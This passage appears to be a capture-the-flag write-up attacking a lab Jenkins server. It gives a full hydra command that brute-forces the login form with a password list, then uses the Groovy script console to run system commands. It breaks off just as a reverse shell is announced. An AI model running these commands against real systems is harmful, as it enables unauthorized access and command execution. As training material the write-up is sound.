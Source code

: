 - error_message : `Invalid username or password`

Ok now we are ready to build our hydra command.

```bash
hydra -s 8080 -l admin -P /usr/share/seclists/Passwords/Common-Credentials/best1050.txt -I -f  10.10.22.71 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=Sign+in:Invalid username or password"
```

<img src="/../assets/582fc1ff0326420ab98d2e7ce4949dca/Untitled%204.png" alt="img" >

Here we go !

# Getting a reverse shell

Now that we have access to jenkins, we can exploit the `jenkins console`

Going to `/script` endpoint, we can execute some `java groovy` commands in the console.

Let’s run `whoami` as a proof of concept.

```groovy
def cmd = "cmd.exe /c whoami".execute();
println("${cmd.text}");
```

<img src="/../assets/582fc1ff0326420ab98d2e7ce4949dca/Untitled%205.png" alt="img" >

We basically have arbitrary command execution, we can pop a reverse shell whenever we want.
